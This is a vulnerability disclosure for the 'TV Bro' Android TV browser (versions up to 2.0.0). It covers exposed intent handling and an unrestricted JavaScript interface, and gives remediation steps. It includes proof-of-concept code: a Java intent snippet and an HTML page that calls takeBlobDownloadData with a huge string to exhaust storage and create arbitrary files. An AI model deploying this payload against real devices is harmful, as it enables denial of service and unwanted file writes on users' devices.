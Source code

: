 
---

## Vulnerability Report: `com.phlox.tvwebbrowser` 'TV Bro' Version <= 2.0.0

### Vulnerability: JavaScript Code Injection via Intent Handlers

---

#### **Summary**:
The `com.phlox.tvwebbrowser` application improperly handles external intents, potentially leading to Arbitrary Code Execution (ACE) via crafted URIs.

#### **Severity**:
🔴 High

#### **Details**:
The exposed `com.phlox.tvwebbrowser.activity.main.MainActivity` allows external applications to execute arbitrary JavaScript within its context. Specifically, a malicious app can invoke this activity with a specially crafted URI that contains JavaScript, leading to unwanted code execution.

##### Proof of Concept:

![poc](https://github.com/actuator/com.phlox.tvwebbrowser/assets/78701239/a1ebc5df-61c0-481d-beac-01b457bff30d)



```java
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setComponent(new ComponentName("com.phlox.tvwebbrowser", "com.phlox.tvwebbrowser.activity.main.MainActivity"));
intent.setData(Uri.parse("https://windows96.net"));
startActivity(intent);
```

#### **Common Weakness Enumeration (CWE)**:
- [CWE-94](https://cwe.mitre.org/data/definitions/94.html): Improper Control of Generation of Code ('Code Injection')

#### **Remediation Steps**:
1. **Restrict External Intent Handling**: In `AndroidManifest.xml`, ensure the `exported` attribute for the affected activity is set to `false`.
2. **URI Sanitization**: Implement a strict validation and sanitation mechanism for URIs before processing.


#### Addendum
---

The com.phlox.tvwebbrowser application exposes a JavaScript interface, namely TVBro, to its WebView component. This interface provides powerful methods that can be invoked by any web page loaded into the WebView. Such unrestricted access can lead to a variety of security risks, such as arbitrary file downloads, resource exhaustion, and potentially other undisclosed impacts.

#### Impact:

#### Resource Exhaustion:
An attacker can generate an extremely large file using the takeBlobDownloadData method which could lead to resource exhaustion and potential denial-of-service scenarios.

#### Arbitrary File Creation: 
The method allows for the creation of files with arbitrary content on the user's device without user consent.
Potential for other Exploits: Without a detailed assessment of all methods within the TVBro interface.

#### Proof of Concept:
Below is a sample payload that exploits the vulnerability by attempting to create an extremely large file:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exploit Page</title>
</head>
<body>
    <script>
        // Generate a large random base64 string 
        function generateRandomBase64String(length) {
            let characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';
            let result = '';
            for (let i = 0; i < length; i++) {
                result += characters.charAt(Math.floor(Math.random() * characters.length));
            }
            return result;
        }

        // Check if the JS interface method exists
        if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
            // Send an extremely large base64 data to the method
            window.TVBro.takeBlobDownloadData(generateRandomBase64String(50005000000050000000500000005000000050000000500000000000), 'exploit.txt', 'text/plain');
        }
    </script>
</body>
</html>
```html
